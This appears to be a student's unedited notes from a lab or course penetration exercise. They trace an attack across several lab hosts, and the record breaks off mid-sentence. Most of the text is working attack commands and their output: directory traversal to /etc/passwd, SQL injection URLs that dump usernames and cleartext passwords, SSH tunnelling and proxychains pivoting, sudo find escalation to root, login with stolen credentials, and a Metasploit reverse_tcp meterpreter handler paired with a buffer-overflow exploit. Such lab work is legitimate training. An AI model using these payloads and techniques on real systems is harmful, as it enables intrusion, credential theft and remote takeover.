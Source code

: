 Target 1 : 10.50.90.39.220
`student@lin-ops:~$ nmap -T4 -Pn -sT -v 10.50.39.220`
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
`student@lin-ops:~$ nmap -v -sT -Pn -T4 --script http-enum 10.50.39.220 -p 80`
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-enum: 
|   /login.php: Possible admin folder
|   /login.html: Possible admin folder
|   /img/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_  /scripts/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
fire up browser 
in browser: 10.50.90.39.220
click on everything
in file to read box on get careeers tried command injection "; whoami" , sql "tom OR 1=" , or traversal which worked "../../../../../etc/passwd"
../../../../../etc/hosts
[view page source]
192.168.28.181 WebApp
know we know there is another network
apply for a position here has spot to upload but there is no way to run the uploads = dead end
employee sign in try command injection: didnt work, directory transersal: didnt work, try sql injection: `tom' or 1='1`'
use F12 > network > click login > click in request and throw it at the end of url insert ?
`http://10.50.39.220/login.php?username=tom%27+or+1%3D%271&passwd=tom%27+or+1%3D%271`
vulnerable to sql injection through get method
Array
(
    [0] => user2
    [name] => user2
    [1] => RntyrfVfNER78
    [pass] => RntyrfVfNER78
)
1Array
(
    [0] => user3
    [name] => user3
    [1] => Obo4GURRnccyrf
    [pass] => Obo4GURRnccyrf
)
1Array
(
    [0] => Lee_Roth
    [name] => Lee_Roth
    [1] => anotherpassword4THEages
    [pass] => anotherpassword4THEages
)

we only use base64 and rot13 in this class
user2 - EaglesIsARE78
user3 - Bob4THEEapples
Lee_Roth - anotherpassword4THEages
see user2 creds on scripts/development.py 

now lets get on this box
`student@lin-ops:~$ ssh -MS /tmp/red user2@10.50.39.220`
bash
sudo -l 
find / -type f -perm /6000 -ls 2>/dev/null
cat /etc/crontab

nothing of interest yet

$ bash
user2@PublicFacingWebsite:/$  for i in {1..254}; do (ping -c 1 192.168.28.$i | grep "bytes from" &); done
64 bytes from 192.168.28.172: icmp_seq=1 ttl=63 time=2.26 ms
64 bytes from 192.168.28.181: icmp_seq=1 ttl=63 time=1.63 ms
64 bytes from 192.168.28.190: icmp_seq=1 ttl=64 time=0.540 ms (IGNORE)

note: have to be in bash shell to perform ping sweep 

`student@lin-ops:~$ ssh -S /tmp/red red -O forward -D9050`
`student@lin-ops:~$ proxychains nmap -T4 -Pn -sT -v 192.168.28.172,181,190`
Nmap scan report for 192.168.28.172
Host is up (0.0013s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap scan report for 192.168.28.181
Host is up (0.0014s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap scan report for 192.168.28.190
Host is up (0.0010s latency).
All 1000 scanned ports on 192.168.28.190 are closed

lets tackle the port 80 on .181
set up another tunnel 
`student@lin-ops:~$ ssh -S /tmp/red red -O forward -L 1601:192.168.28.181:80`
(can run nikto but didnt quite get command to work on my end)
go to website
`http://0.0.0.0:1601/`
`http://0.0.0.0:1601/pick.php?product=4&Submit=Submit`
`http://0.0.0.0:1601/pick.php?product=4 OR 1=1 ;`
`http://0.0.0.0:1601/pick.php?product=7%20OR%201=1%20;`    find that it is product 7 to conduct sql injection
`http://0.0.0.0:1601/pick.php?product=7%20UNION%20select%201,2,3;` to see how many columns that it needs and in this case it is 3
see that 1 , 3 , 2 is the way it prints 
`http://0.0.0.0:1601/pick.php?product=7%20UNION%20SELECT%20table_schema,column_name,table_name%20FROM%20information_schema.columns;` put column_name in spot 2 so it pints at the end
`http://0.0.0.0:1601/pick.php?product=7%20UNION%20SELECT%20user_id,name,username%20FROM%20siteusers.users`
Aaron - apasswordyPa$$word
user2 - EaglesIsARE78
user3 - Bob4THEEapples
Lee_Roth - Lroth - anotherpassword4THEages
on .181 webapp

`student@lin-ops:~$ ssh -S /tmp/red red -O forward -L 1602:192.168.28.181:22`
`student@lin-ops:~$ ssh -S /tmp/red red -O forward -L 1603:192.168.28.172:22`
 now lets try to brute force pwds
 
none seem to work on the .181
Aaron works on .172bash

`student@lin-ops:~$ ssh -MS /tmp/blue Aaron@0.0.0.0 -p 1603`
`student@lin-ops:~$ ssh Aaron@0.0.0.0 -p 1603`
`Aaron@RoundSensor:/$ cat /etc/crontab`
see weird crontabs

sudo -l
    (ALL) NOPASSWD: /usr/bin/find
[use the ntfo](https://gtfobins.github.io/#)https://gtfobins.github.io/#
use website 
Find sudo command
Aaron@RoundSensor:/$ find . -exec /bin/sh \; -quit
whoami >>> root
ls -lisa /root
cat the files
see a nc listener set up tried to call it 
`user2@PublicFacingWebsite:/$ nc 192.168.28.172 7008`
nothing..

`student@lin-ops:~$ ssh -S /tmp/red red -O cancel -D9050`
`student@lin-ops:~$ ssh -S /tmp/blue blue -O forward -D9050`
`# bash`
`root@RoundSensor:/root# `

`root@RoundSensor:/root# for i in {1..254}; do (ping -c 1 192.168.28.$i | grep "bytes from" &); done`
64 bytes from 192.168.28.172: icmp_seq=1 ttl=64 time=0.039 ms
64 bytes from 192.168.28.179: icmp_seq=1 ttl=128 time=1.57 ms
64 bytes from 192.168.28.190: icmp_seq=1 ttl=64 time=0.989 ms (ignore)

`student@lin-ops:~$ proxychains nmap -T4 -Pn -sT -v 192.168.28.179`
PORT     STATE SERVICE
22/tcp   open  ssh
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
9999/tcp open  abyss

know its a windows box bc of all these ports
`student@lin-ops:~$ proxychains nc 192.168.28.179 9999`
secure server
this is the only program we did the buffer overflow exploit

`student@lin-ops:~$ ssh -S /tmp/blue blue -O forward -L 1604:192.168.28.179:3389`
`student@lin-ops:~$ ssh -S /tmp/blue blue -O forward -L 1605:192.168.28.179:9999`

student@lin-ops:~$ xfreerdp /u:Lroth /v:0.0.0.0:1604 /p:anotherpassword4THEages -dynamic-resolution +glyph-cache +clipboard

on windows box
open up cmd 
netstat -ano
tasklist /svc (find pid for secure server)
tasklist /svc | findstr /i "secure"
netstat -ano | findstr "3064"
secure server listening on 9999
open up services
see secure server
open task scheduler
see trigger , actions go to directory
lets make our own version putty.exe bc can add stuff in directory
open regedit
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run and RunOnce 

lets go Putty route

linops:
msf6 > use multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > show options
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
msf6 exploit(multi/handler) > show options
msf6 exploit(multi/handler) > exploit
student@lin-ops:~/Desktop/Security$ ./secureserverBuffo2.py 


dont need cookiestealer
review linux and windows buffer overflow
run msfvenom using 0.0.0.0 bc that what we used in 


